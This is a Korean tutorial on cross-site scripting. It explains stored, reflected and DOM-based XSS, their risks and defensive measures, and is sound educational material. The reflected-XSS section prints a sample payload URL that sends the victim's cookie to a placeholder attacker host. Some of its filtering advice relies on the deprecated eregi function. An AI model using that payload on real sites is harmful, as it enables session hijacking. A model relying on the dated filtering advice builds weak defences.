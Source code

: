 # XSS \(Cross-Site Scripting\) 이란?

##  **1 개요**

![](https://t1.daumcdn.net/cfile/tistory/99E25E485C89B3950D)

 XSS\(Cross-Site Scripting\) 이란 웹 애플리케이션에서 일어나는 취약점으로 관리자가 아닌 권한이 없는 사용자가 웹 사이트에 스크립트를 삽입하는 공격 기법입니다. XSS공격 역시 OWASP Top10에 포함되어 있습니다. 대부분 사용자가 글을 쓰고 읽을 수 있는 게시판에 많이 발생하지만, 사용자의 입력 값을 웹 페이지에 보여주는 곳에서도 발생합니다. 악의적인 사용자가 C&C 서버로 리다이렉션 하기 위해 리다이렉션 스크립트를 주입하여 중간 경유지로 활용하기도 하고, 사용자의 쿠키를 탈취하여 세션 하이재킹\(Session Hijacking\) 공격을 수행하기도 합니다.

 위의 사진은 XSS 공격중 Persistent\(or Stored\) XSS Attack이고, 사용자의 세션을 탈취하는 프로세스를 나타내고 있습니다. 해커가 XSS 공격에 취약한 웹사이트에 악의적인 스크립트를 삽입하고, 그 스크립트가 있는 게시글을 열람한 사용자는 악성스크립트로 인해 본인의 쿠키가 해커에게 전송되게 됩니다. 세션ID가 포함된 쿠키를 탈취한 해커는 탈취한 사용자의 계정으로 로그인 하게 됩니다.

## **2 공격 종류 및 방법**

**Persistent\(or Stored\) XSS**

**지속형\(혹은 저장형\) XSS 공격**

![](https://t1.daumcdn.net/cfile/tistory/997CF6485C89B39508)

   Persistent\(or Stored\) XSS

XSS 공격 종류 중 하나인 Persistent XSS 는 말 그대로 지속적으로 피해를 입히는 XSS 공격입니다. 위의 그림을 보면, 해커는 웹 애플리케이션에서 XSS 취약점이 있는 곳을 파악하고, 악성스크립트를 삽입합니다. 삽입된 스크립트는 데이터베이스에 저장이 되고, 저장된 악성스크립트가 있는 게시글 등을 열람한 사용자들은 악성스크립트가 작동하면서 쿠키를 탈취당한다던가, 혹은 다른 사이트로 리다이렉션 되는 공격을 받게 됩니다. 데이터베이스에 저장이 되어 지속적으로 공격한다고 하여 Persistent XSS 라고 부르며, 데이터베이스에 저장이 되므로 Stored XSS 공격이라고 부르기도 합니다. 한번의 공격으로 악성스크립트를 삽입하여 수많은 피해를 입힐 수 있다는 점이 특징입니다.

Persistent XSS로 가장 많이 공격이 되는 곳은 게시판이며, 굳이 게시판이 아니더라도 사용자가 입력한 값이 데이터베이스에 저장이 되고, 저장된 값이 그대로 프론트엔드 단에 보여주는 곳에 공격이 성공할 가능성이 큽니다. XSS공격도 마찬가지로 사용자의 입력에 대한 검증이 없기 때문에 발생합니다.

### **Reflected XSS**

**반사형 XSS 공격**

![](https://t1.daumcdn.net/cfile/tistory/99CB0F485C89B39406)

   Reflected XSS

Reflected XSS 공격은 사용자에게 입력 받은 값을 서버에서 되돌려 주는 곳에서 발생합니다. 예를 들면 사용자에게 입력 받은 검색어를 그대로 보여주는 곳이나 사용자가 입력한 값을 에러 메세지에 포함하여 보여주는 곳에 악성스크립트가 삽입되면, 서버가 사용자의 입력 값을 포함해 응답해 줄 때 스크립트가 실행됩니다.  보통 Reflected XSS 는 공격자가 악의적인 스크립트와 함께 URL을 사용자에게 누르도록 유도하고, URL을 누른 사용자는 악의적인 스크립트가 실행되면서 공격을 당하게 됩니다.  

예를 들면, GET 방식으로 검색기능을 구현한 웹 애플리케이션에 XSS 취약점이 있음을 확인한 해커는 공격코드를 작성하였습니다. 편의상 URL 인코딩은 하지 않았습니다. http://testweb?search=&lt;script&gt;location.href\("http://hacker/cookie.php?value="+document.cookie\);&lt;/script&gt;

악의적인 스크립트를 살펴보면 검색 인자로 작성한 스크립트를 넘겨줍니다. 해당 스크립트의 내용은 본인의 웹페이지로 URL을 클릭한 사용자의 쿠키 값이 전송되도록 되어 있습니다. 링크를 클릭한 사용자는 해커한테 본인의 의도와는 상관없이 자신의 쿠키 값을 전송하게 됩니다.  


### **DOM based XSS**

**DOM\(Document Object Model\) 기반 XSS 공격**

![](https://t1.daumcdn.net/cfile/tistory/99D295485C89B3940D)

   DOM based XSS

 DOM based XSS 는 악의적인 스크립트가 포함 된 URL을 사용자가 요청하게 되어 브라우저를 해석하는 단계에 발생하는 공격입니다. 악의적인 스크립트로 인해서 클라이언트 측 코드가 원래 의도와는 다르게 실행됩니다. DOM based XSS 공격은 다른 XSS 공격과는 다르게 서버 측에서 탐지가 어렵다는 점입니다. 위의 그림을 보면 해커는 http://www.some.site/page.html URL 과 함께 \# 이라는 특수문자를 사용하고 있습니다. 이 특수문자는 \# 이후의 값은 서버로 전송되지 않는 기능을 가지고 있습니다.

![](https://t1.daumcdn.net/cfile/tistory/9943A2485C89B39313)

 DOM based XSS 공격 위치

사용자의 요청에 따라 HTML을 다르게 해석하는 부분에 공격이 가능합니다.

## **3. XSS 위험성**

다음으로 XSS를 통해 어떤 피해가 발생할 수 있는지 알아본다.

**1. 쿠키 정보 및 세션 ID 획득**

공격자는 XSS에 취약한 페이지 및 게시판에 XSS 공격을 수행함으로써 해당 페이지를 이용하는 사용자의 쿠키 정보나 세션 ID를 획득할 수 있다.

쿠키는 웹 서버가 브라우저에 보내는 4KB 이하의 작은 텍스트 파일로, 사용자가 웹 사이트를 이용하는 동안 사용자 브라우저에 저장하는 파일이다.

주로 사용자의 상태를 기록하기 위해 쿠키에 로그인 및 버튼 클릭 등에 대한 정보를 저장한다.

만약 세션 ID 등을 쿠키에 포함하는 경우, XSS 공격을 통해서 페이지 사용자의 세션 ID를 획득 해 공격자가 불법적으로 정상 사용자인 척 가장할 수 있다.

**2. 시스템 관리자 권한 획득**

XSS 취약점이 있는 웹 서버에 다양한 악성 데이터를 포함시킨 후, 사용자의 브라우저가 악성 데이터를 실행하게 할 수 있다.

공격자는 아직 패치되지 않은 취약점에 대한 공격 코드가 실행되도록 해 사용자의 시스템을 통제할 수 있다.

만약 회사 등 조직의 개인 PC가 해킹될 경우, 조직 내부로 악성 코드가 이동 해 내부의 중요 정보가 탈취될 수 있다.

**3. 악성코드 다운로드**

XSS 공격은 악성 스크립트 자체로 악성 프로그램을 다운로드 할 수는 없다.

하지만, 사용자가 악성 스크립트가 있는 URL을 클릭하도록 유도 해 악성 프로그램을 다운받는 사이트로 리다이렉트\(Redirect\) 하거나 트로이 목마 프로그램을 다운로드 하도록 유도할 수 있다.

**4. 거짓 페이지 노출**

XSS 공격에 취약한 페이지일 경우, &lt;script&gt; 태그 뿐만 아니라 &lt;img&gt;와 같은 그림을 표시하는 태그를 사용 해 원래 페이지와는 전혀 관련이 없는 페이지를 표시할 수 있다.

기타 다른 태그도 사용이 가능할 경우, 원래 페이지의 일부를 변조 해 거짓 페이지를 노출할 수 있어 이를 통해 개인정보 유출 등의 위험이 있다.

## **4. 대응방안**

**입출력 값 검증**

 사용자가 입력한 값에 대한 검증과 사용자가 입력한 값을 그대로 출력할 때 검증이 필요 합니다. XSS Cheat Sheet 에 대한 필터 목록을 만들어 모든 Cheat Sheet에 대한 대응이 가능하도록 하여야 합니다. XSS에 대한 필터링을 적용한 뒤 직접 테스트 하여 스크립트가 실행되는지 모의해킹 해보는 것도 좋은 방법입니다.

**XSS 방어 라이브러리 , 브라우저 확장앱 사용**

 XSS를 막아주는 Anti XSS 라이브러리를 여러 회사에서 제공하는데 이 라이브러리를 사용하면 손쉽게 XSS를 방어할 수 있습니다. XSS 라이브러리를 사용하는 것은 서버 단에서 개발자가 추가하는 것이고, 사용자들이 각자 본인의 브라우저에서 악의적인 스크립트가 실행되지 않도록 방어하는 것이 중요합니다. 방문하는 모든 사이트가 안전하다는 보장이 없기 때문에 브라우저 확장 앱 중 Anti XSS 를 해주는 애플리케이션을 설치하고 방어하여야 합니다.

**웹 방화벽 사용**

 웹 방화벽은 웹 공격에 특화되어있기 때문에 XSS 공격을 방어하기 위함만이 아니라 각종 Injection 공격을 효과적으로 방어할 수 있습니다.

**XSS 방지법**

XSS 공격은 IPS, IDS, 방화벽 등으로도 방지할 수가 없다.

때문에 단순히 문자를 필터링 하는 등의 방법만이 존재한다.

**1. script 문자 필터링**

XSS 공격은 입력값에 대한 검증이 제대로 이루어지지 않아 발생하는 취약점이다.

때문에 사용자의 모든 입력값에 대하여 서버측에서 필터링을 해 주어야 한다.

PHP의 eregi 함수를 이용하면 XSS 공격에 주로 사용되는 문자들을 필터링 할 수 있다.

주로 스크립트를 실행하기 위한 특수문자를 필터링 하며, &lt;, &gt;, ", ' 등의 문자가 있다.

**2. htmlentities 사용**

PHP 함수 중 htmlentities라는 함수가 있다.

htmlentities는 모든 특수문자를 HTML 엔티티\(entity\)로 변환한다.

※ HTML 엔티티는 "&약어;" 및 "&\#숫자;"의 형태를 표현하는 것을 의미한다. 예를 들어 &lt;는 &lt;로, &gt;는 &gt;로 표현한다.

출처 : [https://noirstar.tistory.com/266](https://noirstar.tistory.com/266), [https://4rgos.tistory.com/1](https://4rgos.tistory.com/1)

